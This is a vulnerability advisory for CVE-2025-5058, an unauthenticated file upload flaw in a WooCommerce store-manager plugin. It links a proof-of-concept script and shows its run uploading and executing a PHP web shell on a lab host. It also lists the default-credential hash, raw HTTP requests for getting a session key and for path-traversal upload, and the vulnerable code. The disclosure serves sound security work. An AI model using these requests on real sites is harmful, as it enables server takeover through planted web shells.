 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Upload via set_image Task'
date = 2025-05-23T05:30:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "eMagicOne"]
+++
### CVE-2025-5058

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory via the `set_image` task.



## Reproduction
* A POC [CVE-2025-5058.py](https://github.com/d0n601/CVE-2025-5058/blob/main/CVE-2025-5058.py) is provided to demonstrate an attacker uploading a web shell named `shell.php`.

```console
python CVE-2025-5058.py https://lab1.hacker      

[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24"}
[+] Got session key: 03877e9c7c21be0a8022d0d9397bb5c4d153a7cd51d2ddc2c398465160747f24
[*] Uploading file via set_image...
[*] Upload response: <br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>324</b><br />
<br />
<b>Warning</b>:  Trying to access array offset on false in <b>/home/vagrant/research/Lab1/wp-content/plugins/store-manager-connector/classes/class-emosmcwoocommerceoverrider.php</b> on line <b>325</b><br />
{"response_code":"19","message":"Unable to resize one or more of your pictures"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 82708sec preferred_lft 82708sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 85990sec preferred_lft 13990sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:0a:f0:30:8c brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' + self::TABLE_SESSION_KEYS
        + "` (`session_key`, `date_added`, `last_activity`) VALUES ('" + $this->shop_cart->p_sql( $key ) + "', '"
        + $date + "', '" + $date + "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_image` task, abusing the parameters to write arbitrary files:

```http
POST /?connector=bridge
Content-Type: multipart/form-data

task=set_image&entity_type=product&image_id=../../shell.php&key=<session_key>
file=@shell.php;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2115+):

```php
private function set_image() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_image( $entity_type, $image_id, self::UPLOAD_FILE_NAME, $type ) ) {
        $this->generate_error( $this->br_errors['upload_image_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~272+):

```php
public function set_image( $entity_type, $image_id, $img, $type ) {
    // ...
    $destination_path = $this->get_shop_root_dir() . "$entity_type/$image_id";
    // ...
    $result = move_uploaded_file( $tmp_name, $destination_path );
    // ...
}
```

**Result:** The file is written to the WordPress root (or any specified directory, via path traversal in image_id). 
